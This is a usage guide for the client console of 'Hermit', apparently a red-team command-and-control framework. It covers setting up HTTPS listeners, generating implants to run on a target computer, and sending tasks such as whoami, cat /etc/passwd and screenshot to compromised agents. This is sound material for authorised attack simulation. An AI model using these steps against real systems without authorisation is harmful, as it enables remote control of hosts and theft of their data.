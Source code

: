 +++
title = "C2 Client"
date = 2024-01-02
[extra]
toc=true
+++

## Run (Connect to the C2 Server)

At first, make sure that [the C2 server](./c2-server) has already started. It's running on the port `9999` by default.  
Now run the `client` command to connect the C2 server.  

```sh
hermit client -H my-c2-server.com -P 9999
```

After connecting, the client console will start.

<br />

## Help

```sh
Hermit $ help
```

<br />

## Listener

### 1. Add New Listener

Hermit currently supports the `HTTPS` listener only.  
You need to specify the domains (`-d`) for HTTPS self-signed certificates.

```sh
Hermit $ listener add -d localhost,my-c2-server.com
```

Once the listener is added successfully, you can see it with the `listeners` (or `listener list`) command.

```sh
Hermit $ listeners
```

### 2. Start Listener

After adding a listener as the previous section, you can start it by the `listener start <ID or Name>` command.

```sh
Hermit $ listener start 1
```

### 3. Stop Listener

```sh
Hermit $ listener stop 1
```

### 4. Delete Listener

Listeners that you don't plan to use can be deleted using the `delete` command.

```sh
Hermit $ listener delete 1
```

If you want to delete all listeners, specify `all` to the second argument as below:

```sh
Hermit $ listener delete all
```

<br />

## Implant

### 1. Generate Implant

You can generate implants with `implant gen` command with specifying the listener URL (`-u`) that you've started the previous section. The agent will connect to this listener URL.

```sh
Hermit $ implant gen -u https://my-c2-server.com:4443/
```

After generating, you can see the information by `implants` (or `implant list`) command.

```sh
Hermit $ implants
```

Now you need to transfer this implant to the target computer and execute it.

### 2. Delete Implant

```sh
Hermit $ implant delete 1
```

If you want to delete all implants, specify `all` to the second argument as below:

```sh
Hermit $ implant delete all
```

<br />

## Agent

When the implant is executed, the agent will start and attempt to connect to your C2 server's listener.  
If it succeeds, the agent has been registered in the C2 server. You can check if the agent has been registered correctly with the `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

### 1. Interact with Agent

To interact with the agent for the attack simulation, you can run the `agent use <ID or Name>` command.

```sh
Hermit $ agent use 1
```

This command switches to the agent mode.

### 2. Agent Mode: Send Tasks

After switching the agent mode, you can simulate various attacks e.g. enumeration, shell command, screenshot, etc.

```sh
Hermit [agent: agent_0123] $ whoami
Hermit [agent: agent_0123] $ cat /etc/passwd
Hermit [agetn: agent_0123] $ screenshot
```

### 3. Quit Agent Mode

To quit the agent mode and return the home console, run the `exit` command.

```sh
Hermit [agetn: agent_0123] $ exit
```

### 4. Delete Agent

```sh
Hermit $ agent delete 1
```

If you want to delete all agents, specify `all` to the second argument as below:

```sh
Hermit $ agent delete all
```

<br />

## Exit

To quit the client console, run the `exit` command.

```sh
Hermit $ exit
```